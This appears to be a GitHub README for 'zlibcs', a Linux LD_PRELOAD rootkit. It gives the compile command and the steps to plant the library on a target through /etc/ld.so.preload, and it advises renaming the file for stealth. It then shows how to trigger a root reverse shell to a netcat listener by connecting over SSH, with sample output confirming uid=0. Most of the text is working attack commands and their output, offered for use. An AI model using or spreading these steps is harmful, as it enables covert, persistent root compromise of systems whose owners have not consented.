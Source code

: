 zlibcs


Compile:
```bash
gcc zlibcs.c -o zlibcs.so -fPIC -shared -ldl -D_GNU_SOURCE
```

## Installation
On the target, copy the shared library/rootkit to where the other shared libraries reside.

64-bit example:
```bash
cp zlibcs.so /lib/x86_64-linux-gnu/
cp zlibcs.so /lib/
```
And copy the path of the rootkit into /etc/ld.so.preload.
```bash
echo "/lib/x86_64-linux-gnu/zlibcs.so" > /etc/ld.so.preload
echo "/lib/zlibcs.so" > /etc/ld.so.preload
```

I would advise renaming `zlibcs.so` to something more stealthy.

### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcs.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcs.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
rm /etc/ld.so.preload
rm /lib/x86_64-linux-gnu/zlibcs.so
```
